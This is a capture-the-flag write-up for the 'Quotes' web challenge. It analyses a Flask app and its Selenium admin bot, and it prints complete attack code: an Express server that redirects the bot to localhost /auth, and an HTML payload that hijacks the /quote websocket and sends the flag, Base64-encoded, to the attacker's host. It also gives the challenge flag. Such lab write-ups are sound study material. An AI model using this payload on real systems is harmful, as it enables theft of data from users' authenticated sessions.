


# NUS Grey Cat The Flag: 🩸 Quotes
*Web, 500 -> 485 points*

> Feeling lost? Why don't you come and get quotes from the wise?  
> - 复读机

## Analysis
Visiting the [given link](http://challs.nusgreyhats.org:12326/), we are greeted with a random quote that seems to be different on every page load.



We were also given some source files for the challenge.

Upon inspecting the source code of the page, we see that there is a commented line as follows:
```html
<body>
    <blockquote>
        <div id="quote"></div>
        <footer>&mdash;
            <cite id="author">
                null
            </cite>
        </footer>
    </blockquote>
    <!--<a href="share">share your quote with admin</a> -->
</body>
```

So there is actually a hidden link which shows this:


Hrm. This reminds me of the typical XSS that would be used to perform [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery) via [SSRF](https://portswigger.net/web-security/ssrf).

Checking out the given source for the application, we see that there it will actually load the page via a local browser instance through [Selenium](https://www.selenium.dev/) Firefox (Gecko):

```python
import random
from threading import Thread

import os
import requests
import time
from secrets import token_hex

from flask import Flask, render_template, make_response, request
from flask_sockets import Sockets
from gevent import pywsgi
from geventwebsocket.handler import WebSocketHandler
from selenium.webdriver.firefox.options import Options
from selenium.webdriver.firefox.service import Service
from selenium import webdriver


app = Flask(__name__,
            static_url_path='',
            static_folder='static',
            template_folder='templates')

sockets = Sockets(app)

auth_token = token_hex(64)

quotes=requests.get("https://gist.githubusercontent.com/robatron/a66acc0eed3835119817/raw/0e216f8b6036b82de5fdd93526e1d496d8e1b412/quotes.txt").text.rstrip().split("\n")


# best way to get rid of chromium Ndays is to use firefox instead
DRIVER_PATH = "/app/geckodriver"

options = Options()
options.headless = True


class Bot(Thread):
    def __init__(self, url):
        Thread.__init__(self)
        self.url = url

    def run(self):
        driver = webdriver.Firefox(service=Service(DRIVER_PATH), options=options)
        driver.get(self.url)
        time.sleep(3)
        driver.quit()


@app.route('/')
def start():
    return render_template('index.html')


# authenticate localhost only
@app.route('/auth')
def auth():
    print('/auth', flush=True)
    print(request.remote_addr, flush=True)
    if request.remote_addr == "127.0.0.1":
        resp = make_response("authenticated")
        # I heard httponly defend against XSS(what is that?)
        resp.set_cookie("auth", auth_token, httponly=True)
    else:
        resp = make_response("unauthenticated")
    return resp


@sockets.route('/quote')
def echo_socket(ws):
    print('/quote', flush=True)
    while not ws.closed:
        try:
            try:
                cookie = dict(i.split('=') for i in ws.handler.headers.get('Cookie').split('; '))
            except:
                cookie = {}

            # only admin from localhost can get the GreyCat's quote
            if ws.origin.startswith("http://localhost") and cookie.get('auth') == auth_token:
                ws.send(f"{os.environ['flag']}")
            else:
                ws.send(f"{quotes[random.randint(0,len(quotes))]}")
            ws.close()
        except Exception as e:
            print('error:',e, flush=True)

@app.route('/share', methods=['GET','POST'])
def share():
    if request.method == "GET":
        return render_template("share.html")
    else:
        if not request.form.get('url'):
            return "yes?"
        else:
            thread_a = Bot(request.form.get('url'))
            thread_a.start()
            return "nice quote, thanks for sharing!"


if __name__ == "__main__":
    try:
        server = pywsgi.WSGIServer(('0.0.0.0', 7070), application=app, handler_class=WebSocketHandler)
        print("web server start ... ", flush=True)
        server.serve_forever()
    except Exception as e:
        print('error:',e, flush=True)

```

The other interesting route we see here is the `/auth` route, which seems to give a token cookie that seems to be neccessary to connect to the websocket endpoint `/quote`.

The main problem is that the `/auth` endpoint checks for the remtoe address of the connection, which means we must access the endpoint from the selenium instance.

This likely means we need to bypass the [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) restrictions as we will be providing a link that is not the same origin as our attack server. The websocket on the other hand does not require the connecting client to be from the same origin fortunately.

## Solution
To bypass the CORS restrictions in order to access the `/auth` endpoint to obtain the cookie, we can load the address via an `` tag that does not require CORS. 

Unfortunately, it did not seem to work as you are still trying to access a resource from a different origin. What was possible was to host an endpoint on the attack server to redirect to the localhost `/auth` endpoint instead, so that it will get pass CORS.

We could have went with [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding) but it was not feasible as the selenium browser was only running for 3 seconds as seen in the script. We will require a minimum of a few minutes for the [DNS TTL](https://developers.cloudflare.com/dns/manage-dns-records/reference/ttl/) to update before the new IP can be exploited (minimum TTL is 1 minute).

The port for the localhost instance is `7070`, as noted by the docker files provided:

```yaml
version: "3.8"
services:
  app:
    build: .
    command: python server.py
    ports:
      - "7070:7070"
    environment:
      - flag=ctf{thisisaflag}
```

After accessing the cookie, we just need to attempt the websocket connection to the server, then feed back the response through a [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) GET request back to the attack server to retrieve the flag. 

Applying some Base64 encoding also helped to prevent invalid URLs.

However, we soon realised that the websocket server also checks the origin of the connection, and the host must begin with `http://localhost`. This was a simply fix by simply pointing the `localhost` subdomain of your own domain to the attack server.



We can simply then submit `http://localhost.domain.tld:7070/quotes` as the link into http://challs.nusgreyhats.org:12326/share

Full attack server script and HTML payload:

`server.js`
```js
const express = require('express');
const app = express();

app.use(express.urlencoded({extended: true}));

app.use((req, res, next) => {
  console.log(`${req.method} - ${req.url} ${JSON.stringify(req.headers)}`);
  console.log(req.cookies);
  next();
});

app.get('/quotes', (req, res) => {
  res.sendFile("quotes.html", { root: __dirname });
});

app.get('/auth', (req, res) => {
  res.redirect('http://localhost:7070/auth');
});

app.listen(7070);
```

`quotes.html`
```html
<html>
  <body>
    Hi! Such a simple and wonderful quote!
    
    <!--  -->
    <script>
      setTimeout(function () {
        var ws = new WebSocket("ws://localhost:7070/quote");
        ws.onmessage = function(evt) {
          var xx = new XMLHttpRequest();
          xx.open("GET", "http://localhost.domain.tld:7070/quotes?q=" + encodeURIComponent(btoa(evt.data)), false);
          xx.send();
        }
        ws.onerror = function(evt) {
          var xx = new XMLHttpRequest();
          xx.open("GET", "http://localhost.domain.tld:7070/quotes?e=" + encodeURIComponent(btoa(evt.message)), false);
          xx.send();
        }
        ws.onclose = function(evt) {
          var xx = new XMLHttpRequest();
          xx.open("GET", "http://localhost.domain.tld:7070/quotes?c=" + encodeURIComponent(btoa(evt.code)), false);
          xx.send();
        }
      }, 200);
    </script>
  </body>
</html>
```
After getting the responses back in our attack server, we simply need to Base64 decode it to obtain the flag.

**Flag:** ```grey{qu0735_fr0m_7h3_w153_15_w153_qu0735_7a4c6ec974b6d8b0}```

## Notes/Takeaway
- This challenge was relatively simple once all the various restrictions such as CORS and XSS are bypassed, though much of the time was spent on getting the `/auth` endpoint to successfully load/obtain the cookie to be used for the websocket connection.
- Alternatively the request could have been made through Websocket as well since the origin checks were not applicable for that.
